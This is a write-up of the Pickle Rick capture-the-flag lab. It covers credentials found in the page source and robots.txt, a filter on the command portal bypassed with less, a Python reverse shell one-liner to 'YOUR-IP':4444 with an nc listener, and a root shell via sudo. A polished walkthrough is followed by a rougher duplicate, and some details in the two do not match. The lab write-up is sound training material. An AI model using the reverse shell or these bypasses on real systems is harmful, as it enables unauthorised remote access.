



# 🖥️ Pickle Rick CTF — Complete Writeup

> *A Rick and Morty-themed capture-the-flag challenge. Transform Rick back from a pickle by finding three secret ingredients!*

---

## 🎯 Question 1: What is the First Ingredient that Rick Needs?

### 📍 Reconnaissance & Discovery

After obtaining the target IP address, I opened it in a browser and discovered the initial landing page:



**Initial Approach:**
- 🔍 Performed directory brute-forcing to uncover hidden endpoints and clues
- 📄 Inspected the page source code for hidden comments and credentials

#### 🔐 Username Discovery

Examining the HTML source code revealed a helpful comment:

```html
<!--
  Note to self, remember username!
  Username: R1ckRul3s
-->
```

**Finding:** The username is **`R1ckRul3s`**

### 🛣️ Directory Brute-Force & Endpoint Discovery

Directory brute-forcing proved crucial for identifying the login endpoint. During this process, I discovered an interesting file:

**`robots.txt` Contents:**
```text
Wubbalubbadubdub
```

**Findings from Directory Enumeration:**
- `robots.txt` — Contains a suspicious string (potential password)
- `/login.php` — The login endpoint

### 🔓 Authentication & Access

Using the discovered credentials:
- **Username:** `R1ckRul3s`
- **Password:** `Wubbalubbadubdub` (from `robots.txt`)

I successfully logged in at the `/login.php` endpoint.

### ⚙️ Remote Command Execution Discovery

The login panel revealed a command execution interface at `/portal.php`. Testing with basic commands:

```bash
whoami
# Output: www-data
```

**Vulnerable Endpoint:** `/portal.php` (Allows arbitrary command execution as `www-data` user)

### 📂 Directory Listing & File Enumeration

Using `ls -la` to enumerate the current directory:

```bash
ls -la
```

**Directory Contents:**
```
.
..
Sup3rS3cretPickl3Ingred.txt
assets/
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

### ⚠️ Command Filtering Issue

Attempting to read files using `cat` command encountered filtering:

```bash
cat clue.txt
# Error: Custom error message (command filtered)
```



**Analysis:** The `cat` command is blocked by a filter, likely preventing direct file reading through the command interface.

### 🎯 File Access via Direct URL Access

Since `robots.txt` was accessible directly via HTTP (without command execution), I tested the same approach for other files:

**Direct URL Access Method:**
```
http://[TARGET-IP]/robots.txt
http://[TARGET-IP]/Sup3rS3cretPickl3Ingred.txt
```

✅ **Success!** The file `Sup3rS3cretPickl3Ingred.txt` was accessible via direct URL and contained the first ingredient answer.

---

## 🎯 Question 2: What is the Second Ingredient in Rick's Potion?

### 📋 Clue Discovery

Accessing the clue file via direct URL:

```
http://[TARGET-IP]/clue.txt
```

**Clue Content:**
```text
Look around the file system for the other ingredient.
```

**Interpretation:** The second ingredient is located somewhere within the file system, not in the web root.

### 🚫 File Access Restrictions

The portal command execution interface had multiple filters in place:
- `cat` — Blocked
- `vim` — Blocked
- `nano` — Blocked

Viewing the filtered message:


### 🔧 Alternative Command Discovery

**Solution:** Find an alternative file-reading tool installed on the system.

Listing available tools in `/usr/bin`:

```bash
ls /usr/bin
```

This revealed numerous tools. After analyzing the output, I identified that the `less` command was available and suitable for reading file contents.

**Testing the `less` command:**

```bash
less clue.txt
# Successfully displayed file contents!
```

✅ **Breakthrough:** The `less` command successfully bypassed the filtering!

### 🧭 File System Navigation

#### Current Working Directory

```bash
pwd
# Output: /var/www/html
```

#### Exploring the Root File System

Attempting to change directories using `cd`:

```bash
cd /
pwd
# Output: Still /var/www/html (cd was filtered/disabled)
```

**Workaround:** Use absolute paths with commands to explore the file system without relying on `cd`.

#### File System Reconnaissance

```bash
ls -lah /
```

This revealed the complete root directory structure, including the `/home` directory.

#### Target Directory Discovery

Exploring the `/home` directory:

```bash
ls -lah /home
```

Found a user directory: `rick`

#### Second Ingredient Location

The `/home/rick/` directory contained a suspicious file:

```bash
ls -lah /home/rick/
# Found: "second ingredients" (note the space in filename)
```

### 📖 Reading the Second Ingredient

Using the `less` command to read the file with the space in its name:

```bash
less /home/rick/second\ ingredients
```

✅ **Found:** The second ingredient was successfully extracted from this file.

---

## 🎯 Question 3: What is the Last and Final Ingredient?

### 🕵️ System Enumeration & Privilege Escalation

To access the final ingredient (likely in `/root/`), privilege escalation to root is necessary.

### 📊 System Information Gathering

**User and System Information:**

```bash
id
# Output: uid=33(www-data) gid=33(www-data) groups=33(www-data)

whoami
# Output: www-data

hostname
# Output: ip-10-48-164-33

uname -a
# Output: Linux ip-10-48-164-33 5.15.0-1064-aws #70~20.04.1-Ubuntu SMP Fri Jun 14 15:42:13 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
```

**Current User:** `www-data` (unprivileged web server user)

### 🔐 Sensitive File Analysis

#### `/etc/passwd` — User Enumeration

```bash
less /etc/passwd
```

**Key Users Identified:**
- `root` — Administrator account
- `ubuntu` — Regular system user
- `rick` — Secondary user (previously discovered)

#### `/etc/crontab` — Scheduled Task Analysis

```bash
less /etc/crontab
```

**Cron Jobs Analysis:**
```
# System maintenance tasks - no exploitable entries
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```

**Conclusion:** No exploitable cron jobs found.

### 📝 Writable Directories Analysis

Identifying directories where the `www-data` user can write files:

```bash
find / -writable -type d 2>/dev/null
```

**Writable Locations:**
```
/tmp
/dev/shm
/var/tmp
/var/lib/php/sessions
/var/cache/apache2/mod_cache_disk
/run/lock
/home/rick (interesting!)
[and various other directories]
```

**Important Finding:** `/home/rick` is writable, indicating the web server has elevated permissions or a weak file permission configuration.

### 🔙 Reverse Shell Acquisition

#### Payload Construction

To gain full interactive access, I executed a Python reverse shell payload:

```bash
python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("YOUR-IP",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```

**Listener Setup (on attacker machine):**
```bash
nc -lvnp 4444
```

✅ **Result:** Obtained an interactive shell as `www-data`

### ⬆️ Privilege Escalation to Root

#### Sudo Privileges Check

```bash
sudo -l
```

**Output:**
```
Matching Defaults entries for root on ip-10-48-164-33:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User root may run the following commands on ip-10-48-164-33:
    (ALL : ALL) ALL
```

**Analysis:** The current user (or an authenticated user) can execute ANY command as root without restrictions.

#### Sudo Privilege Exploitation

With full sudo privileges (`(ALL : ALL) ALL`), gaining a root shell is straightforward:

```bash
sudo su
# Or alternatively:
sudo -i
```

✅ **Success:** Transitioned to root shell (`root@ip-10-48-164-33:#`)

### 🏆 Final Ingredient Retrieval

With root access, accessing the final ingredient file:

```bash
cat /root/3rd.txt
```

✅ **Found:** The third and final ingredient was successfully retrieved from `/root/3rd.txt`

---

Now after accessing the file clue.txt By the url

http://IP/clue.txt

And the content inside it was 

```text
Look around the file system for the other ingredient.
```

So i tried looking around after opening the page denied.php i got


Now after a lot of here and there on the server when i was on the portal endpoint everytime i used cat,vim or nano. i was getting the error


So i tried executing what program is actuallly installed on that system with the command 

ls /usr/bin

And i was able to get a lot of entries in which cat was also there i fed the entire list to ai and said to spot that prgram that is able to read the content of a file.

It spot the less command.

which was successfullly reading the content of the file.

which i tested for the file 

less clue.txt

And i get succeed in readig the content you can view the poc below



now we can walk around in the filesystem and be able to read anyfile as per our wish.

but when i did finding which directory i am in since id  was www-data

so obviuls i should be inside /var/html/www

And our assumption was correct as i did pwd.

And then to seach around in filesystem i tried to change the directroy to the root with cd /

But after execuring it when i checked pwd i was still at /var/html/www

Meaninng the cd was disabled too as like the cat.

But since we can't go there but we could peek there.

so i tried to peek inside with the command 

ls  -lah /

And i was able to read the content.


so i tried to go more deep i peek inside the /home there was a folder rick so  i entered there too there was a file named second ingredients

so i tried reading the file with 

less /home/rick/second\ ingredients

And i was able to get the answer of 2nd quesiton.


For the 3rd question i need to go on to the rev shell or somehow get the shell.

So now its time to go into the full detective mode and full roaming here and there now i did first few command command and gets the output

- id > uid=33(www-data) gid=33(www-data) groups=33(www-data)

- whoami > www-data

- hostname > ip-10-48-164-33

- uname -a > Linux ip-10-48-164-33 5.15.0-1064-aws #70~20.04.1-Ubuntu SMP Fri Jun 14 15:42:13 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux

- cat /etc/passwd  >root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
landscape:x:103:105::/var/lib/landscape:/usr/sbin/nologin
tss:x:112:119:TPM software stack,,,:/var/lib/tpm:/bin/false
tcpdump:x:113:120::/nonexistent:/usr/sbin/nologin
fwupd-refresh:x:114:121:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin

- cat /etc/crontab > # |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#

These are the few result now after analyzing the crontab it is nothing much of our interest.

But after inspecting the file /etc/passwd

We got confirm that there are 2 users one is ubuntu and one is rick.

Next i checked that at which location i am peremitted to write with the command

- find / -writable -type d 2>/dev/null

and the ouput was 

```bash
/proc/1482/task/1482/fd
/proc/1482/fd
/proc/1482/map_files
/tmp
/var/cache/apache2/mod_cache_disk
/var/crash
/var/tmp
/var/lib/lxcfs/proc
/var/lib/lxcfs/sys
/var/lib/lxcfs/sys/devices
/var/lib/lxcfs/sys/devices/system
/var/lib/lxcfs/sys/devices/system/cpu
/var/lib/lxcfs/cgroup
/var/lib/php/sessions
/run/screen
/run/php
/run/cloud-init/tmp
/run/lock
/run/lock/apache2
/home/rick
/dev/mqueue
/dev/shm
```

Interested locations were /tmp & /dev/shm


And inside the location /home/rick there was only 1 file that contained the answer of q2.

And after it all with the commadn

```bash
python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("YOUR-IP",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```

I was able to get the revshell.

Intentinally or unintenally i was chekcing for misconfigured binaries with sudo -l and it doesn't gave me any such binary so i tried anything else that is

- sudo su

Now after it i somehow got the root access.

After doing a little research i heard that if content after the execution of command sudo -l is

Matching Defaults entries for root on ip-10-48-164-33: env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin User root may run the following commands on ip-10-48-164-33: (ALL : ALL) ALL

Then if i am authenticated as that account (or already are root), I can get an interactive root shell with either:

sudo su

or:

sudo -i

Now after getting the root access i am able to read the 3rd question answer in the file

/root/3rd.txt
